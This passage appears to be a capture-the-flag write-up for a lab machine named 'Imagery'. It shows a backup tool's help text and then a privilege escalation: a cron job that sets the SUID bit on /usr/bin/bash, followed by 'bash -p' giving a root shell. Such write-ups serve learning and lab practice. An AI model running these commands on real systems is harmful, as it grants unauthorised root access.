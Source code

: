 So what we gonna do to able to get `root`. <br>
&rarr; Have a look at `help`.

> *As this output a lot so you can check it out yourself. :>*

```bash
Automated Jobs (Cron):
    auto add --schedule "<cron_schedule>" --command "<shell_command>" --name "<job_name>" [--log-output <log_file>]
      Purpose: Add a new automated cron job managed by Charcol.
      Verification:
        - If '--app-password' is set (status 1): Requires Charcol application password (via global --app-password flag).
        - If 'no password' mode is set (status 2): Requires system password verification (in interactive shell).
      Security Warning: Charcol does NOT validate the safety of the --command. Use absolute paths.
      Examples:
        - Status 1 (encrypted app password), cron:
          CHARCOL_NON_INTERACTIVE=true charcol --app-password <app_password> auto add \
          --schedule "0 2 * * *" --command "charcol backup -i /home/user/docs -p <file_password>" \
          --name "Daily Docs Backup" --log-output <log_file_path>
        - Status 2 (no app password), cron, unencrypted backup:
          CHARCOL_NON_INTERACTIVE=true charcol auto add \
          --schedule "0 2 * * *" --command "charcol backup -i /home/user/docs" \
          --name "Daily Docs Backup" --log-output <log_file_path>
        - Status 2 (no app password), interactive:
          auto add --schedule "0 2 * * *" --command "charcol backup -i /home/user/docs" \
          --name "Daily Docs Backup" --log-output <log_file_path>
          (will prompt for system password)
```

When checking the `help` menu, this one pop up idea that we can leverage this one to add the schedule and setup the suid for the `/usr/bin/bash` to help us escalated to `root`.

## Privilege Escalation
Let's get it to go.

### Cron Jobs Exploited
```bash
charcol> auto add --schedule "* * * * *" --command "chmod u+s /usr/bin/bash" --name "suid_bash"
[2025-09-28 15:53:12] [INFO] System password verification required for this operation.
Enter system password for user 'mark' to confirm: 

[2025-09-28 15:53:23] [INFO] System password verified successfully.
[2025-09-28 15:53:23] [INFO] Auto job 'suid_bash' (ID: bf310c29-28da-46c2-95ae-eed88221e32b) added successfully. The job will run according to schedule.
[2025-09-28 15:53:23] [INFO] Cron line added: * * * * * CHARCOL_NON_INTERACTIVE=true chmod u+s /usr/bin/bash
```

Then we exit out the interactive shell.

```bash
mark@Imagery:~$ /usr/bin/bash -p
bash-5.2# id
uid=1002(mark) gid=1002(mark) euid=0(root) groups=1002(mark)
```
